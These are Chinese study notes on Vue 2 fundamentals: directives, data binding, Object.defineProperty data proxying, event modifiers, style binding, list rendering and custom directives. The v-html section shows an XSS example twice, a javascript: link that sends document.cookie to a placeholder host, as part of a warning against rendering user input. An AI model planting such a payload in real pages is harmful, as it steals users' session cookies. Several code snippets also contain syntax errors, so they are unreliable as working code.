<WaterMark />
# [Vue2](https://cn.vuejs.org/)

一套用于<span style='color:#DA9B00'>构建用户界面</span>的<span style='color:#E83F11'>渐进式</span>JavaScript框架。(可以自底向上逐层应用)； -----作者：尤雨溪

- 简单应用：只需一个轻量小巧的核心库。
- 复杂应用：可以引入各式各样的 Vue插件。
- 全家桶：Vue、Vuex、Vue-router、axios、Vue-resource、UI框架，webpack
- 熟练使用Vue的技巧，掌握js原生的数组、字符串、对象、函数、数学等内置API；算法题！
- 渐进式：使用Vue可以只使用它的一部分，也可以使用全家桶，没有过多的要求，按需引入！


Vue 特点：

- 采用<span style='color:#E83F11'>**组件化**</span>模式，提高代码复用率、维护更方便。
- 使用`.vue`后缀的文件（一个vue文件就包含：`html、css、javascript`）
- <span style='color:#E83F11'>**声明式**</span>编码，不直接操作DOM，利用MVVM思想，通过改变数据更新界面，提高开发效率。(传统：命令式编码)
  - 不推荐直接操作DOM，而应想着如何通过数据驱动视图更新，操作数据
- 使用<span style='color:#E83F11'>**虚拟DOM**</span>+优秀的<span style='color:#E83F11'>**Diff算法**</span>，尽量复用DOM节点。(虚拟DOM：变更数据时原数据不再修改，只增加新数据，提高效率)




## 版本介绍

- <span style='color:#DA9B00'>开发版本：</span>包含完整的警告和调试模式（开发时使用）
  - 使用时，控制台默认存在两个小提示（推荐下载vue开发者工具、提示当前正在使用开发版）
  - Vue开发工具：官网下载需要访问谷歌商店；油猴脚本下载 `Vue.js_devtools`也行。
- <span style='color:#DA9B00'>生产版本：</span>删除了所有的警告，大小仅为33.5kb左右 (开发完成后，上线时使用)
- **2022.02.07  Vue默认版本由2变为3**
- 关于Vue2
  - npm i vuex@3   （Vue2中只能使用vuex3版本）
  - npm i vue-router@3 才能在vue2中使用
- 关于Vue3（默认版本）
  - npm i vue 安装的直接就是 vue3
  - npm i vuex 默认安装为 vuex 4（只能在vue3中使用）
  - npm i vue-router 默认版本为4，且4版本只能在vue3中使用


## 基础篇

- 该部分使用 **非脚手架**的**引入方式**使用Vue

```html
<!-- 引入Vue.js文件（开发环境版本）：包含了有帮助的命令行警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>

<script>
   // 关闭 默认的开发环境提示（写在vue.js引入之后即可）
   Vue.config.productionTip = false;
   // 创建Vue实例
   new Vue({
    el:'css选择器名',    //id选择器用# class选择器用. 
    data:{              //data的类型是一个对象 
        name:'吴老板'，  //在html结构中用 {{name}} 使用这个数据
        age：18
    }
   })
</script>
```

- 注意：

  - 想让vue工作就必须创建一个vue实例，且要传入一个配置对象。
  - vue实例只负责其绑定的html对象，<span style='color:hotpink'>在其他地方使用它的`{{name}}` 不起作用。</span>
  - `data`中用于存储数据，供`el`所指定的容器使用。非CLI可以使用对象形式，CLI中必须使用函数返回值的形式
  - 容器与vue实例 必须是<span style='color:hotpink'>一 一对应</span>的关系。
  - 当data中的数据发生改变时，模板中使用到该数据的地方会<span style='color:hotpink'>自动更新。</span>
  - 不能将body、html作为 el的配置参数，相当于绑定到模板上，vue最终会用生成的代码替换绑定的部分


### 内置指令

- `v-bind`：单向绑定解析表达式，简写为：`:`
- `v-model`：双向数据绑定
- `v-for`：遍历数组/对象/字符串，循环生成当前DOM
- `v-on`：绑定事件监听，简写为`@`
- `v-show`：条件渲染（动态控制节点是否 **展示**)
- `v-if`：条件渲染（动态控制节点是否存在)
- `v-else`：条件渲染（动态控制节点是否存在)
- `v-else-if`：条件渲染（动态控制节点是否存在)
- `v-text`：更新节点的文本内容，不解析 html标签
- `v-html`：更新节点内容，并解析 html 结构
- `v-cloak`：结合css样式，Vue载入时不显示DOM，但脚手架开发借助打包工具用不到
- `v-once`：节点初次动态渲染后，就视为静态内容
- `v-pre`：直接跳过其所在节点的编译过程
- 相关说明：
  - 开发中常用插值语法 {{}} 替代`v-html和v-text`


#### <span style='color:#DA9B00'>模板语法</span>

- 插值语法 `{{xxx}}`
  - 用于解析标签体内容，将data的数据插入到模板标签
  - 所使用的数据必须是在vm或vc实例上的数据
  - <span style='color:hotpink'>`{{ }}`中支持js表达式和三元运算符</span>，但不能出现if of 之类的js语句
- 指令语法
  - `v-bind:`可简写为`:`将data的数据插入到标签的属性中，需要加`this.`
  - 用于解析标签（包含：标签属性、标签体内容、绑定事件...）
  - 备注;vue中含有很多的指令，形式都为`v-xxx`，且后面都写js表达式。


#### 数据绑定

- 单向绑定：`v-bind`简写`:`

  - 数据只能从data流向页面

- 双向绑定：`v-model` 
  - `v-model` 一般只能应用在<span style='color:hotpink'>表单类元素（value值）</span>
  - 数据不仅能从data流向页面，还能从页面流向data。
  - `v-model:value`可以简写为`v-model`，因为`v-model`默认收集value的值。
  - 实现原理：
    - MVVM架构模型+数据代理
    - Vue2使用：Object.defineproperty() 为_data追加属性，并绑定get和set方法进行数据监听
- <span style='color:hotpink'>`v-model`的三个修饰符：</span>
  - `.lazy`：失去焦点后再收集数据，常用于输入框
  - `.number`：输入字符转化为有效的数字，常与表单的number类型搭配使用
  - `.trim`：过滤掉输入字符的前后空格

##### MVVM模型

- Model 模型：对应data中的数据
- View 视图：模板
- ViewModel  视图模型：vue实例对象

结论：

- vue的设计受MVVM的启发，因此<span style='color:hotpink'>常用vm表示vue实例。</span>
- data中的所有属性，都会出现在vm身上。
- <span style='color:hotpink'>vm身上的所有属性 以及 vue原型上的所有属性，</span>在vue模板中都可以直接使用。






##### Object.defineproperty

```javascript
let person = {
    name:'吴老板',
    age:18
}
//为person对象追加新的属性
//参数1：要添加属性的对象
//参数2：要添加的属性的名字
//参数3：添加的属性的配置项（值）
Object.defineProperty(person,'school',{
    value:18,
    enumerable:true,      //控制属性是否可以枚举（遍历）
    writable:true,        //控制属性是否可以被修改
    configurable:true     //控制属性是否可以被删除
})
```

`object.defineproperty`的高级属性（直接在let中定义的属性没有任何限制）

```javascript
// 1.使用该方法追加的属性，默认情况：不可枚举，无法遍历得到   enumerable:true, 
// 2.默认情况下不能被修改。    writable:true,    
// 3.默认情况下不可以被删除    configurable:true  

//参数：要遍历的对象的名字，结果以数组形式输出
console.log(Object.keys(person));
```

Object.defineproperty 绑定数据

```javascript
let number = 10;
let person = {
    age:number
}

Object.defineProperty(person,'age',{
    //需求：当number的值更改后，person的age值就跟着发生更改
    //当读取person的age属性时，get函数就被调用，且返回值就是age的值
    //原理：只要读取get的值时，就调用get函数，重新为获取number的值更新到age
     get(){
        return number
     },
    
    //需求：当person的age值修改后nubmber跟着修改
    //当修改person的值时，就调用set函数，且会收到修改的具体的值
    //原理：修改person的数据后，将person的值赋给number
     set(value){
         number = value;
     }
})

//注意：使用get() 或者set() 时，不能给追加的属性再写value值
```


##### 数据代理(数据劫持)

- <span style='color:hotpink'>数据代理：</span>通过一个对象代理对另一个对象中属性的操作（读/写）。

```js
let obj = { x:100 }
let obj2 = { y:200 }

//通过obj2中的x对obj中的x进行读写操作
Object.defineProperty( obj2,'x'{
   get(){
       return obj.x
   },
   set(value){
       obj.x = value
   }
})
```


##### vue中的数据代理

vue中也使用的 get 和 set 进行监听，实现数据代理。



- 读取数据时，就是读取 vue实例的 _data中的数据赋值给页面
- 当修改数据时，将_data的数也进行修改。






#### 事件处理

数据代理data  与事件处理methods 区别：

- methods 不会进行<span style='color:#DA9B00'>数据代理</span>；
- 而data中的数据会做数据代理，实现双向绑定

##### <span style='color:#DA9B00'>事件的基本使用：</span>

- 使用<span style='color:hotpink'>`v-on:xxx` 或 `@xxx`绑定事件，其中`xxx`是事件名，也可以写一些简单的语句</span>
- 事件的回调配置在`methods`对象中，最终会绑定在vm上
- `methods`中配置的函数，不能使用箭头函数，否则this指向`window`而不是`vm`
- `@click="直接在页面中调用函数执行"`和`@click="shijian($event)"`效果一致，但后者可以传更多的参数。
- 可以传递`$event`参数,获取触发事件的对象
- 注意：
  - 可以使用插值语法，直接在页面中调用函数执行`{{ shijian }}`
  - 当函数返回值为`undefined`时，undefined不会展示在页面中
  - 自定义事件名，不识别大小写！可以采用 _分割多个单词

```vue
<div class='.one'>
    <button v-on:click='shijian2'>{{name}}</button>
    <button v-on:click='shijian3($event,66)'>{{name}}</button>
    <!-- 解析模板时，自动调用函数，当函数没有返回值或为undefined时,不解析到页面-->
    {{shijian2()}} 
</div>

<script>
 new Vue({
     el: '.one',
     data: {
         name: '二大爷'
     },
     methods: {
         shijian2(event) {
             console.log(event); //传递事件对象
             console.log(event.target); // event.target事件对象
             console.log(event.target.innerText); // event.target事件对象
         },
         shijian3(event, number) {
             console.log(event);
             console.log(number);   //点击触发事件后，返回相应的参数66
         }
     }
 })
</script>
```


##### 事件修饰符

- <span style='color:hotpink'>`.prevent` </span>阻止默认事件（常用）`event.preventDefault()`

- <span style='color:hotpink'>`.stop`</span> 阻止事件冒泡  `event.stopPropagation()`

- <span style='color:hotpink'>`.once`</span> 事件只触发一次

- <span style='color:hotpink'>`.capure`</span>使用事件的捕获模式

- <span style='color:hotpink'>`.self`</span> 只有`event.target`（事件对象）是当前操作的元素时才触发事件，冒泡事件的`event.target`都原对象

- <span style='color:hotpink'>`.passive`</span> 事件的默认行为立即执行，无需等待事件回调执行完毕（当事件处理程序比较复杂时，让效果先响应

- `.native` 在组件标签中绑定原生DOM事件需要的修饰符

- `.left`  点击鼠标左键时触发。

- `.right`  点击鼠标右键时触发。

- `.middle`  点击鼠标中键时触发。

- <span style='color:#DA9B00'>事件修饰符可以连着写多个，中间用`.`隔开即可</span>

  ```vue
  <a href='https://www.baidu.com' v-on:click.prevent=showInfo>点我提示信息</a>
  
  <script>
  new Vue({
      el:a,
      data:{},
      methods:{
          showInfo(){
             alert('同学你好！')
          }
      }
  })
  </script>
  ```

  

##### 键盘事件

- `.enter`  回车

- `.delete `删除(捕获"删除`delete`"和"退格`back`")

- `.esc`退出

- `.space`空格

- `.tab`换行   （必须配合keydown使用，否则光标切走后，无法在获取正确的事件对象）

- `.up`上

- `.down`下

- `.left`左

- `.right`右

- Vue未提供别名的按键，可以使用按键名原始的key值绑定，但注意转为caps-lock（小写、短横线命名）

- 系统修饰键（用法特殊）：ctrl、alt、shift、meta(win键)

  - 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放才触发   ` @keyup.ctrl.67 = doSomeThing`
  - 配合keydown使用：正常触发事件    `@keydown.ctrl= doSomeThing`

- 精准控制系统修饰符 `.exact`

  - ```html
    <!-- exact用于精准控制系统修饰符组合触发的事件 -->
    <!-- 即使同时按下alt和shift键，也会触发 -->
    <button @click.ctrl="methodsOne">A</button>
    <!-- 只有单独按下ctrl时，才会触发 -->
    <button @click.ctrl.exact="methodsTwo">B</button>
    <!--只有没有按下修饰键时才触发  -->
    <button @click.exact="onClick">C</button>
    ```

    

- `Vue.config.keyCodes.自定义键名=键码`  //(不太推荐)可以定制按键别名`Vue.config.keyCodes.huiche=13;`

  - 定义后。再在代码中使用 huiche这个事件名（不常用）

- <span style='color:#DA9B00'>键盘触发事件的要求可以连着写多个，中间用`.`隔开即可；如“@keyup.ctrl.y”表示同时按下ctrl和y</span>


#### 样式增强

- 默认情况下，class、style属性都是字符串
- v-bind 允许class、style的值为：数组、对象、字符串
- 便于修改样式、类名；避免DOM操作

##### 绑定class样式

- <span style='color:hotpink'>`:class='xxx'`</span>绑定class样式，xxx对应data中的键名或表达式
- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定
- 绑定class样式--数组写法，适用于：绑定的样式个数不确定，名字也不确定，不常用。
- 绑定class样式--对象写法，适用于：个数确定、名字确定，需要动态绑定，常用！

```vue
<div class="vm">
    <div class="pink" :class='color1'> {{data}}</div>
    <div class="yellow" :class='color2'> {{data}}</div>
    <div class="black" :class='color3'> {{data}}</div>
     <div class="black" :class="[color1,'three']"> {{data}}</div>     //  不推荐写法
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '.vm',
        data: {
            data: '我是你爹,五颜六色',
            //字符串形式，多个类名间用空格隔开
            color1: 'one two',
            // 数组形式，一定要加引号
            color2: ['one', 'three'],
            // 对象形式，键：class类名，值true/false
            color3: {
                one: true,
                two: true,
                three: false
            }
        }
    })
</script>
```


##### 绑定style样式

- <span style='color:hotpink'>`:style='xxx'`</span>绑定style样式，xxx对应data中的键名或表达式
- <span style='color:hotpink'>`:style='{fontSize:xxx}`</span>其中xxx是动态值
- <span style='color:hotpink'>`:style='[a,b]`</span>其中a、b是样式对象
- vue中的css样式是多个单词时：<span style='color:hotpink'>驼峰命名法</span>

```vue
<div class="one">
    <h1 :style='style1'>{{name}}</h1>
    <h1 :style='style2'>{{name}}</h1>
    <h1 :style='{ color:"red",fontSize:fontsize+"px" }'>{{name}}</h1>
</div>
<script>
    Vue.config.productionTip = false
    new Vue({
        el: '.one',
        data: {
            name: '彩虹屁',
            fontsize: 12,
            //对象写法
            style1: {
                fontSize: '12px',
                backgroundColor: 'red'
            },
            //数组写法，数组里包着对象
            style2: [{
                fontSize: '12px',
                backgroundColor: 'yellow'
            }, {
                color: 'pink'
            }]
        }
    })
</script>
```


#### 条件渲染

- <span style='color:hotpink'>`v-show="xxx"`</span>其中xxx可以时false/true；或者代表它们的表达式或data的键；原理：`display:none`
- 适用于：切换频率比较高的场景
- 特点：不展示的DOM元素不会被移除，而被`display:none`
- 
- <span style='color:hotpink'>`v-if="xxx"`</span>其中xxx可以时false/true；或者代表它们的表达式或data的键；原理：直接删除标签
- <span style='color:hotpink'>`v-else-if="xxx"`</span>其中xxx可以时false/true；或者代表它们的表达式或data的键；
- <span style='color:hotpink'>`v-else="xxx"`</span>其中xxx可以时false/true；或者代表它们的表达式或data的键；
- 适用于：切换频率较低的场景
- 特点：不展示的DOM元素直接被移除，可能导致获取元素节点出错
- 注意：`v-if`可以和`v-else-if`、`v-else`配合使用，但中间不能被打断，必须是连在一起的标签一起使用
  - v-if是真正的条件渲染，是惰性的节省开销
- 
- <span style='color:hotpink'>`<template v-if="n=1"> xxx </template>`</span>使用vue时该标签在渲染时不显示在页面中，且只能配合`v-if`使用

```vue
   <div class="net">
        <!-- 使用v-show 做渲染条件 -->
        <div class="one" v-show='false'>123</div>
        <div class="one" v-show='true'>456</div>
        <!-- 使用v-if 做渲染条件-->
        <div class="one" v-if='1==2'>789</div>
        <div class="one" v-if='true'>987</div>
    </div>

    <script>
        new Vue({
            el: '.net'
        })
    </script>


    <div class="net">
        <div>a的值是：{{a}}</div>
        <div v-if='a===1'>嘣！你没了。</div>
        <div v-else-if='a==0'>学习会儿行不行？还点个屁！</div>
        <button @click='jianjian'>点击-1</button>
    </div>
    <script>
        new Vue({
            el: '.net',
            data: {
                a: 5
            },
            methods: {
                jianjian() {
                    if (this.a >= 1) {
                        this.a = this.a - 1;
                    }
                }
            },
        })
    </script>
```


#### 列表渲染

- 遍历 数组/对象：<span style='color:hotpink'>`v-for ="(value,key) in xxx" :key="yyy"`</span>
  - 第一个参数表示`value`，第二个参数表示对象的键`key`
- 遍历字符串：<span style='color:hotpink'>`v-for ="(char,index) in xxx" :key="yyy"`</span>
  - 第一个参数表示index对应的字符，第二个参数表示字符串中每个字符的索引值
- 遍历指定次数：<span style='color:hotpink'>`v-for ="(number,index) of xxx" :key="yyy"`</span>
  - 第一个参数表示数字由1开始，第二个参数表示字符串中每个字符的索引值


- <span style='color:#DA9B00'>这里`in`也可以写作`of`</span>
- <span style='color:hotpink'>`:key`作为数据唯一标识</span>,有相同父元素的子元素必须有**独特的key**，重复的key会导致渲染错误，且不建议使用index
- 谁需要重复渲染给谁加，不要给父标签加
- 使用时不需要加 this，且参数的命名自由，不一定必须使用index或value

```vue
<div id="one">
   <!-- 遍历数组 -->
   <li v-for="(p,index) in persons" :key='p.id'>{{p.name}}-{{p.age}}</li>
   <!-- 遍历对象 -->
   <li v-for=" (value,k) in car">{{k}}--{{value}}</li>
   <!-- 遍历字符串 -->
   <li v-for="(value,index) of str" :key="index">{{value}}--{{index}}</li>
   <!-- 遍历指定次数 -->
   <li v-for="(number,index) of 5">{{number}}-{{index}}</li>
</div>

<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#one',
        data: {
            persons: [
                {id: 001,name: '小明',age: 15}, 
                {id: 002,name: '小红',age: 45}, 
                {id: 003,name: '小蓝',age: 10}, 
                {id: 004,name: '小紫',age: 20}
            ],
            car: { 
               name:'奔驰',
               price:'120万',
               color:'pink'
            },
            str: 'abhsk123'
        }
    })
</script>
```


##### key作用与原理

- `key`不写时默认为`index`
- `key`虚拟DOM对象的标识，当数据发生变化时，Vue会根据新数据生成 新的虚拟DOM
- 随后将 *旧的虚拟DOM* 与 *新的虚拟DOM* 进行比较。
- <span style='color:#DA9B00'>对比规则：</span>
  - 旧 DOM中与新DOM的`key`值相同
    - 若虚拟DOM中的内容没变，使用之前的真实DOM
    - 若虚拟DOM中的内容发生改变，生成并替换为新的真实DOM
  - 旧虚拟 DOM中与新虚拟DOM的`key`值不同
    - 创建新的真实DOM，随后渲染
- 使用`index`可能引发的问题：
  - 进行破坏顺序操作时：会产生没必要的真实DOM更新，效率降低
  - 若结构中存在输入类DOM，页面更新出现不对应的bug
- 推荐`key`
  - 最好使用每条数据的唯一标识作为`key`，如：手机号、身份证号、id、学号等
  - 如果不存在对数据的逆序操作( 逆序添加、逆序删除)，且仅用于渲染列表用于展示时可使用`index`


#### <span style='color:hotpink'>v-text指令</span>

- 作用：向其所在的节点中渲染文本内容
- 与插值语法的区别：`v-text`会替换掉节点中的内容，而插值语法不会
- 引用的<span style='color:hotpink'>值必须写在data的配置项中</span>，否则报错且不解析

```vue
<div v-text="name" id="one">我不爱你</div>      //替换原数据 实际显示:我爱你
<script>
    new Vue({
        el:"#one",
        data:{
            name:"我爱你";
        }
    })
</script>
```


#### <span style='color:hotpink'>v-html指令</span>

- 作用：向指定节点中渲染包含html结构的内容
- 与插值语法区别：`v-text`会替换掉节点中的内容，并解析html标签
- 引用的<span style='color:hotpink'>值必须写在data的配置项中</span>，否则报错且不解析

```vue
<div v-html="str"></div>
<script>
    new Vue({
        el:"#one",
        data:{
            str:"<a href=javascript:location.href='http://xxx.com'+document.cookie>点我</a>";
        }
    })
</script>
```


##### v-html安全问题

- 用户一旦输入可解析的标签,会影响体验
- 在网站上动态渲染任意html是危险行为，容易导致XSS攻击(冒充用户之手)
- 坏人:使用a链接并携带当前网站的Cookie,将导致Cookit泄露,被盗号....
  - 例子：<span style='color:hotpink'>`<a href=javascript:location.href="http.xxx.com?"+document.cookie>我是非法链接</a>`</span>
- 永远不要相信用户的输入,不要在用户提交的数据上使用


#### v-cloak指令(没有值)

- 本质：一个特殊的属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
- 使用css配合v-cloak 可以<span style='color:hotpink'>解决网速慢时页面显示未经解析过的页面</span>的问题
- **使用脚手架开发时，vue源码会被一起打包，因此不存在vue加载问题，没有实际用途**

```vue
<style>
    /* 属性选择器，选择所有包含v-cloak属性的标签*/
    /* 当对应节点被vue解析后，自动去掉v-cloak属性 */
    [v-cloak] {
        display:none;
    }
</style>
<div v-cloak>{{name}}</div>    //当该标签未经过vue解析时，不会出现在页面上
```


#### v-once指令(没有值)

- `v-once`所在的节点在<span style='color:hotpink'>初次动态渲染</span>后，就视为静态内容
- 以后数据的改变不会引起`v-once`所在结构的更新，可<span style='color:hotpink'>用于优化性能</span>
- 与事件修饰符的`.once`不同，`.once`表示事件只触发一次
- 在实际项目中不常用，不仅易于维护，且在性能提升方面效果甚微

```vue
<div id="app">
    <!-- v-once  仅在初始化时渲染一次，后期不会再渲染，有利于提高效率 -->
    <!-- 点击button后初始值不会变化 当前值累加  -->
    <h2 v-once>初始化的n值是：{{n}}</h2>
    <h2>当前的n值是：{{n}}</h2>
    <button @click="n++">点击n++</button>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: "#app",
        data: {
            n: 1
        }
    })
</script>
```


#### v-pre指令

- 作用：vue<span style='color:hotpink'>跳过其所在节点的编译过程</span>
- 可使用它跳过没有使用指令语法、插值语法的节点，<span style='color:hotpink'>加快编译的速度</span>

```html
 <!-- v-pre 跳过所在节点的编译过程 页面显示{{n}} -->
<h2 v-pre>{{n}}</h2>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: "#app",
        data: {
            n: 1
        }
    })
</script>
```


### 自定义指令

- 需要自己手动操作原生DOM
- 可以传入任意的JS表达式，数组、对象、三元运算符

#### 局部自定义指令

- 设置配置项<span style='color:hotpink'>`directives`,</span>与data平级，可以是对象式 或 函数式，
- 配置时自定义指令名不带`v-`，但使用时加`v-`
- 函数中有两个参数：
  - 参数1`el`：绑定的DOM元素，可以直接操作DOM
  - 参数2<span style='color:hotpink'>`binding` ：</span>是个对象，包含以下参数
    - `name`：指令名，不包含 v- 前缀
    - `rawName`：使用时的指令名
    - `value`：绑定的值
    - arg：传给指令的值，例`v-my:foo arg的值为foo`
    - modifiers：一个包含修饰符的对象，例 `v-my.foo.bar`  modifiers的值为：`{foo:true,bar:true}`
  - 参数3：vnode  vue生成的虚拟节点
    - 函数里面第三个参数vnode 它的vnode.context就是当前的vm实例
          const that = vnode.context  
  - 
- <span style='color:hotpink'>调用时机：</span>
  - <span style='color:hotpink'>默认：</span>
    - 指令与元素成功绑定时就调用
    - 指令所在的模板被重新解析时 就再次调用
  - <span style='color:hotpink'>`bind(ele,binding){}`：</span>指令与元素绑定成功时就调用一次
  - <span style='color:hotpink'>`inserted(ele,binding){}`：</span>指令所在的元素被插入页面时
  - <span style='color:hotpink'>`update(ele,binding){}`：</span>指令所在的模板被重新解析之前调用
  - componentUpdated(){}：指令所在的模板被重新解析之后调用
  - unbind(){}: 指令与元素解绑时调用
- <span style='color:hotpink'>操作方法：</span>
  - 直接操作DOM元素即可，使用`return`返回值无效！
- <span style='color:hotpink'>注意事项：</span>
  1. 指令名如果是多个单词，要使用`-`分割，不推荐且无法识别驼峰命名法。
  2. 指令相关的`this`指向`window`而不是vm
  3. 自定义指令中获取vc的方法，`const that = vnode.context;`

```vue
<div id="app">
    <h2>当前的n值是：{{n}}</h2>
    <h2 v-big="n">v-big指令后的n：</h2>
    <button @click="n++">点我n++</button>
    <input type="text" v-fbind="n">
</div>
<script>
    //需求1:自定义v-big指令，和v-text类似，将绑定的数据数值方法10倍
    //需求2：定义v-fbind，和v-bind类似，且默认获取焦点
    Vue.config.productionTip = false;
    new Vue({
        el: '#app',
        data() {
            return {
                n: 1
            }
        },
        //局部自定义指令
        directives: {
            // 简写：当只是用 bind update 这两个钩子，且行为一致时，简写为一个函数
            big(ele, binding) {
                // 将标签中的值完全替换掉
                ele.innerText = binding.value * 10;
            },
            'fbind': {
                //绑定成功时就调用一次
                bind(ele, binding) {
                    ele.value = binding.value;
                },
                //指令所在的元素被插入页面时调用
                inserted(ele, binding) {
                    ele.focus();
                },
                //指令所在的模板被重新解析之前调用，无论本是数据是否发生变化
                update(ele, binding) {
                    ele.value = binding.value;
                    ele.focus();
                }
                //指令所在的模板被重新解析之后调用
               componentUpdated(){
                  // ...
               }
            }
        }
    })
</script>
```


#### 全局自定义指令

- `Vue.directive('指令名',{yyy})`      //yyy是操作DOM的<span style='color:hotpink'>回调函数 或 配置对象</span>

- ```js
  //全局自定义指令
  Vue.directive('fbind', {
      //绑定成功时就调用一次
      bind(ele, binding) {
          ele.value = binding.value;
      },
      //指令所在的元素被插入页面时调用
      inserted(ele, binding) {
          ele.value = binding.value;
          ele.focus();
      },
      //指令所在的模板被重新解析时
      update(ele, binding) {
          ele.value = binding.value;
          ele.focus();
      }
  })
  
  
  // 简写
  Vue.directive('fbind', function(ele, binding){
          ele.value = binding.value;
  })
  ```


#### 动态指令参数

- `v-pin:[direction]="200"`    direction是组件的data数据，可以动态变化影响界面
  - 使用指令时传入动态数据，再借助 binding.arg 获取到动态值

```vue
// 该元素固定在距离页面顶部 200 像素的位置。但如果场景是我们需要把元素固定在左侧而不是顶部又该怎么办呢？这时使用动态参数就可以非常方便地根据每个组件实例来进行更新。
// direction 参数可以根据组件实例数据进行更新！这使得自定义指令可以在应用中被灵活使用。
<div id="dynamicexample">
  <h3>Scroll down inside this section ↓</h3>
  <p v-pin:[direction]="200">I am pinned onto the page at 200px to the left.</p>
</div>

<script>
Vue.directive('pin', {
  bind: function (el, binding, vnode) {
    el.style.position = 'fixed'
    var s = (binding.arg == 'left' ? 'left' : 'top')
    el.style[s] = binding.value + 'px'
  }
})

new Vue({
  el: '#dynamicexample',
  data: function () {
    return {
      direction: 'left'
    }
  }
})
</script>
```


### 列表过滤

- 即可以使用 <span style='color:hotpink'>计算属性</span> 也可以使用 <span style='color:hotpink'>侦听属性</span>，计算属性相对更简单。
- 技术点：使用`filter`方法 和 `indexOf `方法实现筛选功能，`v-for`将筛选后的数据进行展示

```vue
<div id="one">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <li v-for="(p,index) in peoples">{{p.name}}--{{p.age}}--{{p.sex}}</li>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#one',
        data: {
            keyWord: '',
            people: [
                {id: 001,name: '小明',age: 15}, 
                {id: 002,name: '小红',age: 45}, 
                {id: 003,name: '小蓝',age: 10}, 
                {id: 004,name: '小紫',age: 20}
            ],
        //侦听属性
            watch: {
            // 第一步：拿到输入的数据，第二步：根据输入的数据进行数据筛选
            	keyWord: {
                 immediate: true,
             //第一次执行，newvalue为空的字符串，所有字符串默认都包含空的字符串，因此所有的数据第一次都能显示
                 handler(newvalue) {
            //filter方法，里面是一个函数，传入要遍历的内容，返回符合函数内条件的值
                     this.peoples = this.people.filter((p) => {
             //indexOf 值为-1 就表示没有查新到指定的字符串
                    return p.name.indexOf(newvalue) !== -1;
                    })
                 }
            }
     }
        //计算属性
        computed: {
            peoples() {
                return this.people.filter((p) => {
                    return p.name.indexOf(this.keyWord) != -1
                })
            }
        }
    })
</script>
```

